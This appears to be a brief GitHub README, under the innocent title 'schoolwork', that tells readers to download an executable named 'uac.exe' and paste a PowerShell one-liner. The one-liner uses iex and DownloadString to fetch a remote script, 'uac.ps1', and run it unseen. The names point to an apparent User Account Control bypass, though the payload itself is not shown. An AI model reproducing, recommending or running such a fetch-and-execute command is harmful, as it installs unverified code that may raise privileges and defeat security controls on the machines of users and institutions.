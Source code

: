 # schoolwork

1: Download uac.exe, Don't move it  
2: open Powershell  
3: input the command below:  
- iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/poorkid8921/schoolwork/refs/heads/main/uac.ps1'))

